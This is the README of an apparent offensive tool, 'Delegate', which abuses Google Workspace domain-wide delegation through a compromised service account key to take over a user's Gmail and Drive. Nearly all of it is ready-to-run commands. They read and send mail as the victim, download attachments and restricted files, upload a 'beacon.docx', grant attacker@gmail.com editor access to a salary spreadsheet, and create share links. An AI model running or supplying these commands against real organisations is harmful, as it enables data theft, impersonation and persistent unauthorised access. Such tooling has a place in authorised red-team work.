

# Delegate
Tool to perform GCP Domain Wide Delegation abuse and access Gmail and Drive data from a compromised Service Account with domain wide delegation permissions configured within Google Workspace.


## Delegate tool usage
### Gmail usage
List all Gmail emails (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a list
```

Read Gmail emails (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a read
```

List Gmail folders (Labels)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a folders
```

Download all attachments within the targeted Gmail (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a attachments
```

Read all emails within specified folder (Labels) (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a read -f DRAFT
```

Send an email as targeted.delegated@mackinsoncloud.com to jdoe@gmail.com specifying subject and body email content
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a send -r jdoe@gmail.com -s "Test Messaage subject" -c "Hello this is a test email"
```

### Drive usage

List all files and folders within the targeted Drive account
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a list
```

Download locally folder Restricted_documents using recursive option (-x)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a download -f Restricted_documents -x
```

Download locally a specific file secret.txt
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a download -t secret.txt
```

Upload files at user's Drive root folder (My Drive)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a upload -t ./beacon.docx
```

Upload files within specific user's Drive folder or organizational Shared Drive
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a upload -f Restricted_documents -t ./beacon.docx
```

Modify permissions on specific file or folder (Add external Gmail account with Editor permissions over the file/folder)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -f Restricted_documents -t Salary2023.xlsx -e attacker@gmail.com
```

Create shared link on specific file or folder for access
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -f Restricted_documents -t Salary2023.xlsx -l
```

